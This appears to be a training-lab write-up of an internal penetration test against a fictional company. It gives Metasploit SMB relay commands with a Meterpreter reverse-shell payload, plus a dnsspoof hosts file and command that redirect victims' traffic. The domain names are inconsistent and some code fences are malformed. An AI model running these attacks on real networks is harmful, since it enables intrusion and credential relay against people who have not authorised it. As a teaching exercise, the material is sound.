 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.local\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.cyberhat.local to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

''''bash
echo "192.168.50.23 *.slytherin.com" > hosts
''''

run dns spoof in the same tab
''''bash
dnsspoof -i eth1 -f hosts
''''
